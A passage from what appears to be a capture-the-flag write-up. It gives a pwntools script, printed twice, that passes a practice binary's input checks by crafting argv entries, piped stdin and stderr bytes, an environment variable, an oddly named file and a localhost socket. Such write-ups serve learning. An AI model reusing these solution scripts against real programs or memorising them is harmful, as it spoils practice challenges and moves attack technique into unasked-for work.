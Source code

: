 ```python
p.interactive()
```

Go to stager 5.

```C
from pwn import *
import os

args = [b"A"] * 100
args[ord("A")] = b'\x00'
args[ord("B")] = b'\x20\x0a\x0d'
args[ord("C")] = b"8848"

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

envp = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

with open("\x0a", "w") as f:
    f.write(b"\x00\x00\x00\x00")

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2, env=envp)

r = remote("localhost", 8848)
r.sendline(b"\xde\xad\xbe\xef")

p.interactive()
```

OK, port is argv["C"]. I can set it.

We set argv['C'] = b"8848".

EXP: 

```python
from pwn import *
import os

args = [b"A"] * 100
args[ord("A")] = b'\x00'
args[ord("B")] = b'\x20\x0a\x0d'
args[ord("C")] = b"8848"

r0, w0 = os.pipe()
r2, w2 = os.pipe()
os.write(w0, b'\x00\x0a\x00\xff')
os.write(w2, b'\x00\x0a\x02\xff')

envp = {"\xde\xad\xbe\xef":"\xca\xfe\xba\xbe"}

with open("\x0a", "w") as f:
    f.write(b"\x00\x00\x00\x00")

p = process(executable='/home/input2/input', argv=args, stdin=r0, stderr=r2, env=envp)

r = remote("localhost", 8848)
r.sendline(b"\xde\xad\xbe\xef")

p.interactive()
```
